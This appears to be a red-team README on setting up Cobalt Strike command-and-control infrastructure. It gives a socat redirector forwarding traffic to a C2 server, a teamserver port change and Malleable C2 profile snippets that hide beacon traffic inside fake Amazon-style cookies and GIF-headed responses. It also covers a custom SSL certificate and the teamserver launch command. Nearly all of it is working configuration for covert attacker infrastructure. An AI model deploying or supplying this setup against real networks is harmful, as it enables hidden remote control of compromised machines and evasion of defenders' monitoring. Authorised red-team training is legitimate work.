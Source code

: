 # C2 Infrastructure

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/C2Infrastructure/Screen1.png?raw=true)

## Setup Redirector
```
socat TCP4-LISTEN:80,fork TCP4:C2_Server_IP:80
```

## Setup C2 Server (Cobalt Strike)

### Change Default Port
```
sed 's/50050/22222/' teamserver > tmp; mv tmp teamserver
```

### C2 Profiles
```
https://github.com/rsmudge/Malleable-C2-Profiles
```
![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/C2Infrastructure/Screen2.png?raw=true)

1- http-get -> client -> metadata
```
metadata {
	base64;
	prepend "skin=noskin;session-token=";
	append ";csm-hit=s-24KU11BB82RZSYGJ3BDK|1419899012996";
	header "Cookie";
}
```

2- http-get -> server -> output
```
output {
	prepend "Hello world!";
	mask;
	print;
}
```

3- http-post -> client -> id
```
id {
	parameter "sn";
}
```

4- http-post -> client -> output
```
output {
	base64;
	print;
}
```

5- http-port -> server -> output
```
output {
	prepend "Hello World!";
	mask;
	print;
}
```

6- http-stager -> server -> output
```
header "Content-Type" "image/gif";
output {
	prepend "\x01\x00\x01\x00\x00\x02\x01\x44\x00\x3b";
	prepend "\xff\xff\xff\x21\xf9\x04\x01\x00\x00\x00\x2c\x00\x00\x00\x00";
	prepend "\x47\x49\x46\x38\x39\x61\x01\x00\x01\x00\x80\x00\x00\x00\x00";
	print;
}
```

7- New ssl certificate
```
https-certificate {
	set O  "dmcjna";
	set CN "dmcjna";
	set validity "365";
}
```

C2 Profile Full Example: [Link](https://github.com/hassan0x/RedTeam/blob/main/C2Infrastructure/example.profile)

### Test New Profile
```
./c2lint custom.profile
```

### Run Cobalt
```
./teamserver 8.8.8.8 P@ssw0rd custom.profile &
```
